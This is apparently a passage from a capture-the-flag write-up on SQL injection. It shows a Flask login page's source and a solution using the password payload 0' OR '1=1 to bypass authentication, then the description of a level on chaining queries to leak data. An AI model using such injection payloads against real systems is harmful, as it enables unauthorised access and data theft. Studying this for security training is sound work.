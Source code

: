 ```python
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=identity>Password:<input type=text name=pass><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )
```

2. 

set password = 

```
0' OR '1=1
```

so the query will become

```
SELECT rowid, * FROM users WHERE username = 'admin' AND password = '0' OR '1=1'
```

then the `OR` will not be treated as part of the `password`. It will be processed as a conditional keyword.

---

# 3

## Description

If you recall, your command injection exploits typically caused additional commands to be executed. So far, your SQL injections have simply modified the conditions of existing SQL queries. However, similar to how the shell has ways to chain commands (e.g., ;, |, etc), some SQL queries can be chained as well!

An attacker's ability to chain SQL queries has extremely powerful potential. For example, it allows the attacker to query completely unintended tables or completely unintended fields in tables, and leads to the types of massive data disclosures that you read about on the news.

This level will require you to figure out how to chain SQL queries in order to leak data. Good luck!
